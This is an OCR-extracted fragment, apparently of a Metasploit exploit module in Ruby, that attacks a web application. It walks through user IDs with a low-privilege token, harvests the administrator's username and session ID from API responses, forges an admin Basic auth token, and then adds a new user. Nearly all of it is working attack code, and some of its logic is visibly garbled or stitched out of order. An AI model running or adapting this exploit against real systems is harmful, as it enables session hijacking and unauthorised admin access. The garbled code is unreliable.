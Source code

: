 if not res && res.code == 200 && res.body =~ /usersessionid/
  fail_with(Failure::NotVulnerable, 'An error occurred while use Token. Try again.')
end

loopid = userid.to_i
$i = 0
# The admin userid must be less than the low-authority userid.
while $i < loopid  do
  $i +=1
  res = send_request_cgi({
   # token check
     'uri'     => normalize_uri(target_uri.path, app_path, 'users', $i),
     'headers' =>
        {
          'Authorization' => token
        },
     'method'  => 'GET'
   }) 

   if res.code == 200 and res.body.include? '"Sistem Admin"'
     admin_uname = splitJSON(res.body, 'username')
     admin_sessid = splitJSON(res.body, 'usersessionid')
     admin_userid = splitJSON2(res.body, 'id')
     enc_token = Rex::Text.encode_base64('' + admin_uname + ':' + admin_sessid + '')
     token_admin = 'Basic ' + enc_token + ''
     print_good("Excellent! Admin user found.")
     print_good("Admin Username: #{admin_uname}")
     print_good("Admin SessionId: #{admin_sessid}")
     if session_check(token_admin, admin_userid, admin_uname) == "OK"
       break
     end
   end
 end
  res = send_request_cgi({
   # session check
     'uri'     => normalize_uri(target_uri.path, app_path, 'users', userid),
     'headers' =>
        {
          'Authorization' => token
        },
     'method'  => 'GET'
   }) 

   if res && res.code == 200 && res.body =~ /managers_codes/
     print_good("Admin session is active.")
     add_user(token, app_path)
     return "OK"
   else
     print_status("Admin user #{user} is not online. Try again later.")
     return "NOT"
   end   
 json_data = '{"username": "' + user + '", "password": "' + pass + '"}'
